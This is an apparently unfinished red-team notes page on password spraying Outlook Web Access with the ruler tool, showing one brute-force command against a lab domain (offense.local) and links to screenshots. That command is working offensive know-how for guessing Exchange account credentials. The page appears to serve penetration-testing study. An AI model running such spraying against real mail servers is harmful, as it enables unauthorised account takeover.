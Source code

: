 # Password Spraying Outlook Web Access: Remote Shell

{% hint style="warning" %}
Work In Progress
{% endhint %}

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
ruler -k --domain offense.local brute --users users --passwords passwords --verbose
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-12-23-15-09-03.png)

![](../.gitbook/assets/peek-2018-12-23-15-07.gif)

![](../.gitbook/assets/screenshot-from-2018-12-23-15-08-18.png)



